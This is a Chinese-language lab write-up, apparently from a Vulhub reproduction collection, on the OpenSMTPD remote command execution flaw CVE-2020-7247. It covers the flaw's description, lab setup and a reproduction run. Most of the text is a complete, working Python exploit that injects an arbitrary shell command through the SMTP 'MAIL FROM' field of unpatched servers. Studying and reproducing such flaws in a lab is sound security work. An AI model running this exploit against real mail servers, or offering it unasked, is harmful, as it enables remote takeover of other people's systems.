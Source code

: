# OpenSMTPD 远程命令执行漏洞 CVE-2020-7247

## 漏洞描述

OpenSMTPD 是面向 unix 操作系统 (BSD, MacOS, GNU/Linux) 的一个 smtp 服务程序，遵循 RFC 5321 SMTP 协议，OpenSMTPD 最初是为 OpenBSD 操作系统开发的，是 OpenBSD 项目的一部分，由于其开源的特性，进而分发到了其他 unix 平台。根据 ISC 许可，该软件可免费供所有人使用和重用。

`CVE-2020-7247` 是 OpenSMTPD 在实现 RFC 5321 的过程中对 发件人/收件人 校验不严而导致的。

2020年01月29日，OpenSMTPD 官方在 github 代码仓库提交了针对 `CVE-2020-7247` 漏洞的修复，修复后对应版本为`OpenSMTPD 6.6.2p1`。

参考链接：

- https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-opensmtpd.txt
- https://www.exploit-db.com/exploits/47984
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7247
- https://www.anquanke.com/post/id/197689

## 环境搭建

Vulhub执行如下命令，启动OpenSMTPD服务：

```
docker-compose up -d
```

执行完成后，使用`nc <your-ip> 8825 -v` 后应看到如下回显：（`44dadcc5a6eb`为容器编号）：

![image-20220228134850834](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281348887.png)

```
220 44dadcc5a6eb ESMTP OpenSMTPD
```

## 漏洞复现

使用[Exploit-DB](https://www.exploit-db.com/exploits/47984)上的POC进行复现：

```
python3 poc.py your-ip 8825 <command> 
```

执行命令`touch /tmp/awesome_poc`：

![image-20220228141109898](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281411957.png)

命令执行成功：

![image-20220228141157540](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281411586.png)

## 漏洞POC

```python
# Exploit Title: OpenSMTPD 6.6.1 - Remote Code Execution
# Date: 2020-01-29
# Exploit Author: 1F98D
# Original Author: Qualys Security Advisory
# Vendor Homepage: https://www.opensmtpd.org/
# Software Link: https://github.com/OpenSMTPD/OpenSMTPD/releases/tag/6.6.1p1
# Version: OpenSMTPD < 6.6.2
# Tested on: Debian 9.11 (x64)
# CVE: CVE-2020-7247
# References:
# https://www.openwall.com/lists/oss-security/2020/01/28/3
#
# OpenSMTPD after commit a8e222352f and before version 6.6.2 does not adequately
# escape dangerous characters from user-controlled input. An attacker
# can exploit this to execute arbitrary shell commands on the target.
# 
#!/usr/local/bin/python3

from socket import *
import sys

if len(sys.argv) != 4:
    print('Usage {} <target ip> <target port> <command>'.format(sys.argv[0]))
    print("E.g. {} 127.0.0.1 25 'touch /tmp/x'".format(sys.argv[0]))
    sys.exit(1)

ADDR = sys.argv[1]
PORT = int(sys.argv[2])
CMD = sys.argv[3]

s = socket(AF_INET, SOCK_STREAM)
s.connect((ADDR, PORT))

res = s.recv(1024)
if 'OpenSMTPD' not in str(res):
    print('[!] No OpenSMTPD detected')
    print('[!] Received {}'.format(str(res)))
    print('[!] Exiting...')
    sys.exit(1)

print('[*] OpenSMTPD detected')
s.send(b'HELO x\r\n')
res = s.recv(1024)
if '250' not in str(res):
    print('[!] Error connecting, expected 250')
    print('[!] Received: {}'.format(str(res)))
    print('[!] Exiting...')
    sys.exit(1)

print('[*] Connected, sending payload')
s.send(bytes('MAIL FROM:<;{};>\r\n'.format(CMD), 'utf-8'))
res = s.recv(1024)
if '250' not in str(res):
    print('[!] Error sending payload, expected 250')
    print('[!] Received: {}'.format(str(res)))
    print('[!] Exiting...')
    sys.exit(1)

print('[*] Payload sent')
s.send(b'RCPT TO:<root>\r\n')
s.recv(1024)
s.send(b'DATA\r\n')
s.recv(1024)
s.send(b'\r\nxxx\r\n.\r\n')
s.recv(1024)
s.send(b'QUIT\r\n')
s.recv(1024)
print('[*] Done')
```

